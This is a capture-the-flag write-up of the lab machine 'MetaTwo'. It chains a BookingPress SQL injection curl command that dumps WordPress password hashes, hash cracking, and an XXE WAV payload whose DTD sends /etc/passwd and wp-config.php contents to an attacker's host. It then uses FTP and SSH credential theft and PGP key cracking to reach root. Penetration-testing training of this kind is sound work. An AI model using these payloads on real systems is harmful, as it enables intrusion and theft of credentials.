 ![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/636012f7eac0b2f08c89cff8_MetaTwo.webp)
## Nmap

Nmap shows only 3 open ports:
21/tcp FTP
22/tcp SSH
80/tcp HTTP

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/636014f4a4513b509d36a55b_nmap.webp)

## Gobuster

/wp-admin
/wp-content
/wp-includes
/xmlrpc.php

## WP-Scan

We are dealing with a WordPress blog.
Let's scan it with WPScan, starting with:

```sh
wpscan --url http://metapress.htb --enumerate u
```


![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/636017e15544726485e8c6bb_wpsca.webp)![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/63601989313efc2775186b2d_wpscan_users.webp)

From the homepage, **click on the blog link** to be redirected to the
**/events/** page.

In the Network section of the developer tools, we discover the name of the
plugin used:
**bookingpress ver=1.0.10**

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/63601b7a663cb07213501a01_wpscan_plugins_booking_version.webp)

## CVE-2022-0739

After a brief Google search for the **BookingPress** plugin, we find this
link:
[wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357  
](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)
**BookingPress < 1.0.11 - Unauthenticated SQL Injection**

Following the website's guidelines for vulnerability explanation, we go to
/events/ and look for the value "**wp_nonce**" in the developer tools.

To obtain the necessary information (user and password for the login page), we
need to modify the string suggested by wpscan.com slightly to exploit the
vulnerability.

- We can follow this guide on SQL UNION INJECTION:
https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

This will give us the following command:

```sh
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data
'action=bookingpress_front_get_category_services&_wpnonce=33ad3b4921&category_id=33&total_service=-7502)
UNION ALL SELECT
group_concat(user_login),group_concat(user_pass),@@version_compile_os,1,2,3,4,5,6
from wp_users-- -'
```


This command will result in:
```json
[{"bookingpress_service_id":"admin,manager","bookingpress_category_id":"$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.,$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70","bookingpress_service_name":"debian-
linux-
gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-
content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-
img.jpg"}]
```

This will yield two hashes:

```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
```

`$P$ `is a type of MD5 Hash used by WordPress, and we can crack it with **hashcat**:
```sh
hashcat -m 400 -a 0 $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
/usr/share/wordlists/rockyou.txt$P$B4aNM28N0E.tMy
```

**Login nella WP** dashboard con le credenziali: manager:p###############r

In the home directory, we find an interesting folder, ".passpie," and inside
".passpie," a file, ".keys."

### XXE CVE-2021-29447

After logging in, you will find a **basic Dashboard** with the ability to **upload files**.

We can't upload the typical PHP reverse shell file to gain a foothold because the system doesn't accept this file type.
Renaming it or changing header request parameters in Burp Suite doesn't work either.

We know that this blog is using WordPress version 5.6 (you can verify this information using WPScan or Wappalyzer). We found on Google that **this version is vulnerable to the XXE CVE-2021-29447**.

Below are some useful links for the exploit and to understand how this vulnerability works:

- [https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)
- [https://github.com/AssassinUKG/CVE-2021-29447](https://github.com/AssassinUKG/CVE-2021-29447)
- [https://github.com/motikan2010/CVE-2021-29447](https://github.com/motikan2010/CVE-2021-29447)
- [https://www.youtube.com/watch?v=tE8Smz1Jvb8](https://www.youtube.com/watch?v=tE8Smz1Jvb8)

#### Step 1:

Let's create a .wave file with an iXML payload injected:

```sh
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://$IP:$PORT/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

#### Step 2:

Now, create a file named "poc.dtd." This file will be called by the payload you upload to WordPress.

```bash
vim poc.dtd <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://$IP:$PORT/?p=%file;'>"
```
#### Step 3:

Now, you need to run a PHP server that will listen. Use the port chosen in the previous payload.

```sh
php -S 0.0.0.0:$PORT
```
#### Step 4:

Proceed with the upload of the "payload.wav" file to WordPress.

Once the upload is complete, your listening server will respond with base64-encoded strings from the file you requested to read in the payload (in this example, /etc/passwd). Decode the string as follows:

```sh
echo -en {base64_string} | base64 -d
```

![Base64 Encoded Password](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360ae4a0d267a68e0cf7562_base64_encoded_passwd.webp)

We immediately notice that in the `/etc/passwd` file, there is a username:

jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash

Now, let's attempt to gather more information about the database by referencing the `/wp-config.php` file. To do this, we'll modify the "poc.dtd" file as follows:

```xml
<!ENTITY % file SYSTEM
"php://filter/zlib.deflate/read=convert.base64-encode/resource=../wp-config.php">  
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM
'http://10.10.14.26:8081/?p=%file;'>" >
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360b02d3abe6310306ef9f0_wp-config.webp)

Perfect. We've managed to obtain the information we were looking for. We now have two sets of credentials, one for the MySQL database and one for FTP.

We've already seen that the FTP port 21 is open, but not for anonymous connections. Now that we have the username and password, let's connect!

### FTP

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360b1e73abe6322116f1212_ftp_connect.webp)

Within the FTP, we find two directories: **blog** and **mailer**. Let's search for any hidden credentials to access SSH.

In the **mailer** directory, let's download and open the file "**send_email.php**" where we'll find **user and password** for our friend "jnelson".

### SSH

Finally, we can connect via SSH using the recently found credentials. Once connected, we can immediately retrieve the **user.txt** file.

Now, we need to figure out how to elevate our privileges to root.

Within the home directory, we find an interesting folder called "**.passpie**." Inside **/.passpie/**, there is a file called "**.keys**."

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360b4f8adbd3b439a7b40cf_passpie.webp)

Passpie, as described on its [official website](https://passpie.readthedocs.io/en/latest/), is a command-line tool for managing passwords from the terminal.

Inside the **.keys** file, you'll discover two **PGP (Pretty Good Privacy) keys**: a Public key and a Private key.

### GPG2JOHN

We will use **John the Ripper** to crack the PGP key. However, before we proceed, we need to convert the PGP key into a format that John can crack:

```sh
gpg2john pgp.key > key.hash
```

Now, let's crack the hash using "John":
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt 01.hash
```

![Cracking the Key](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360b996d311531cf01248bb_crack_key.webp)

Return to the **victim machine**, execute these commands, and we'll achieve root access:
```sh
passpie copy ssh --to stdout $ su
```

![Root Access](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360ba1d82ec266aa7cc499a_root.webp)
